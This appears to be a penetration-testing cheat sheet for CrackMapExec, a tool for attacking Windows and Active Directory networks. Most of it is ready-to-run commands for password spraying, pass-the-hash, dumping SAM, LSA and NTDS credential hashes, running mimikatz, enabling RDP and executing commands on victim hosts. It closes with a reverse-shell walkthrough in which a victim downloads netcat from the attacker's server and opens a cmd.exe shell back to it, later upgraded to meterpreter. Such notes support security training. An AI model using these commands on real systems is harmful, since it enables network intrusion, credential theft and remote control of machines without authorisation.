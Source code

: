 # crackmapexec

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

## CrackMapExec full cheat sheet

{% embed url="https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/" %}

## Installation

Install in python environment:

```
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install --user pipenv
git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
 cd CrackMapExec && pipenv install
 pipenv shell
 python setup.py install
 crackmapexec
```

![](<../../../../.gitbook/assets/image (256).png>)

install on system (might have some problems):

```
apt install crackmapexec
```

the overal syntax is like this:

```
crackmapexec [protocol] [target] -u [username] -p [password] -H [hash or hash flie]
```

example:

```
crackmapexec smb 192.168.56.115 -u Administrator -H f4750eeb6dd87b3e60faa9cc23809750 cmd.exe
```

### logs and output files

```
/root/.cme/logs/
```

### Target Formats

```
crackmapexec <protocol> ms.evilcorp.org
crackmapexec <protocol> 192.168.1.0 192.168.0.2
crackmapexec <protocol> 192.168.1.0/24
crackmapexec <protocol> 192.168.1.0-28 10.0.0.1-67
crackmapexec <protocol> ~/targets.txt
```

Using Credentials

```
crackmapexec <protocol> <target(s)> -u username -p password
```

{% hint style="info" %}
When using usernames or passwords that contain special symbols, wrap them in single quotes to make your shell interpret them as a string
{% endhint %}

example:

```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'
```

{% hint style="info" %}
if credentials start with ‘-’ use the long format
{% endhint %}

```
crackmapexec <protocol> <target(s)> -u='-username' -p='-Admin!123@'
```

### Using a credential set from the database

```
crackmapexec <protocol> <target(s)> -id <cred ID(s)>
```

### Brute Forcing & Password Spraying

```
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
crackmapexec <protocol> <target(s)> -u /userlist -p /passlist
crackmapexec <protocol> <target(s)> -u /userlist -H /hashlist
```

### Viewing available modules for a Protocol

```
cme <protocol> -L
```

#### using modules:

```
cme <protocol> <target(s)> -M <module name>
```

#### Viewing module options:

```
cme <protocol> -M <module name> --options
```

#### Using module options:

Module options are specified with the -o flag

```
cme <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'
```

### enumerate smb status of all systems in a domain

```
crackmapexec  smb 192.168.56.1/24
```

### pass the hash

```
crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
crackmapexec smb <target(s)> -u username -H NTHASH
```

### pass the password

```
crackmapexec smb 192.168.56.1/24 -u 'hesher' -p 'password123!'
```

## Options & Modules

### dump sam file from all owned machines

```
--sam
```

### enumerate the domain’s password policy

```
--pass-pol
```

### dump lsa hashes

```
--lsa
```

### dump ntds file

```
--ntds drsuapi
```

### enumerate all AD objects including users and groups by guessing every resource identifier (RID)

```
 --rid-brute
```

### enumerate AVs in the domain

```
-M enum_avproducts
```

### execute a command on victim machine

```
-X whoami
```

### execute powershell commands

```
 -X '$PSVersionTable'
```

### NULL Sessions

```
crackmapexec smb <target(s)> -u '' -p ''
```

### enum shares

```
--shares
```

### enumerate the disks on the hosts

```
--disks
```

### enumerate existing sessions on the hosts

```
--sessions
```

### list running processes

```
-X get-process
```

### enum the directory structure

```
-x "dir c:\\"  --exec-method smbexec

```

### enable RDP

```
 -M rdp -o ACTION=enable
 xfreerdp /u:"hesher" /v:192.168.56.115:3389
```



## netcat or meterpreter reverse shell

First we setup our web server using Python's SimpleHTTPServer on port 443

```
python -m SimpleHTTPServer 443
```

upload the file ( download with powershell on victim)

```
crackmapexec smb 192.168.56.115 -u 'hesher' -p 'password123!' -X "(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:443/nc64.exe','c:\nc64.exe')"
```

run msf and setup a multi handler

```
use exploit/multi/handler
set payload windows/x86/shell/reverse_tcp
```

or nc listener

```
ncat --verbose --listen 443 --keep-open --max-conns 1 --nodns
```

run nc on victim side

```
crackmapexec smb 192.168.56.115 -u 'hesher' -p 'password123!' -X "c:\nc64.exe  -e cmd.exe 192.168.56.1 443"
```

upgrade to meterpreter session

```
Ctrl+z
sessions -u [id]
```



